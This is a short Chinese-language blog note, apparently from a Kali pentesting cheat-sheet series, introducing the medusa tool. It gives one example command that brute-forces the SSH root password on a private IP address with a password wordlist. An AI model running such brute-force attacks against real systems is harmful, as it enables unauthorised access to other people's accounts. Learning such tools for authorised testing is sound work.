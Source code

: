 =======================
medusa
=======================


.. post:: 2023-02-20 22:36:38
  :tags: kali, kali渗透专用指令
  :category: 安全
  :author: YanQue
  :location: CD
  :language: zh-cn


暴力破解帐密

示例
=======================

.. code-block:: sh

	# password存放在pwd.txt
	# 以ssh形式破解192.168.135.123帐密
	medusa -M ssh -h 192.168.135.123 -u root -P pwd.txt

